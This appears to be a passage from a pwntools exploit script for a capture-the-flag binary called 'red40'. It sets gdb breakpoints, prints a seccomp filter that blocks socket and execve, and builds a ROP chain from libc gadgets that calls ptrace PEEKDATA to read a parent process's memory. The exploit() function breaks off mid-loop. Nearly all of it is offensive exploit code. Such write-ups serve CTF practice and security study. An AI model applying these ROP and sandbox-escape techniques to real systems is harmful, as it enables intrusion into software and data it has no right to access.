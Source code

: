```python
gdbscript = '''
init-pwndbg
set detach-on-fork off
break *main+155
break *forker+27
break *forker+101 
break *warn_get+213
'''.format(**locals())
# break *warn_get+124

# =========================================================
#                         EXPLOITS
# =========================================================
# └──╼ [★]$ seccomp-tools dump "./red40 loop"
#  line  CODE  JT   JF      K
# =================================
#  0000: 0x20 0x00 0x00 0x00000004  A = arch
#  0001: 0x15 0x00 0x08 0xc000003e  if (A != ARCH_X86_64) goto 0010
#  0002: 0x20 0x00 0x00 0x00000000  A = sys_number
#  0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
#  0004: 0x15 0x00 0x05 0xffffffff  if (A != 0xffffffff) goto 0010
#  0005: 0x15 0x03 0x00 0x00000029  if (A == socket) goto 0009
#  0006: 0x15 0x02 0x00 0x0000003b  if (A == execve) goto 0009
#  0007: 0x15 0x01 0x00 0x00000142  if (A == execveat) goto 0009
#  0008: 0x06 0x00 0x00 0x7fff0000  return ALLOW
#  0009: 0x06 0x00 0x00 0x80000000  return KILL_PROCESS
#  0010: 0x06 0x00 0x00 0x00000000  return KILL

PTRACE_ATTACH = 16
PTRACE_PEEKDATA = 2
PTRACE_NR = 101
WRITE_NR = 1
STDOUT = 1
PPID = 0 

def craft_ptrace_peek_payload(src, dest) -> bytes:
    payload = flat([
            # PTRACE PEEKDATA
            libc.address + 0x45eb0, # pop rax; ret
            PTRACE_NR,
            libc.address + 0x11f2e7,# pop rdx; pop r12; ret,
            src,
            0,
            libc.sym['ptrace'],

            # move PEEK'd data (rax) to destination
            libc.address + 0x11f2e7, # pop rdx; pop r12; ret,
            dest,
            0,
            libc.address + 0x3a411, # mov dword ptr [rdx], eax ; ret
    ]) 
    return payload

def exploit():
    global io
    io = initialize()
    rop = ROP(libc)

    # ==================
    # GET PARENT PID
    # ==================
    io.sendlineafter(b'>', b'2')
    while(io.recvline().strip()[:7] != b'YOU WON'): # literal gamble
```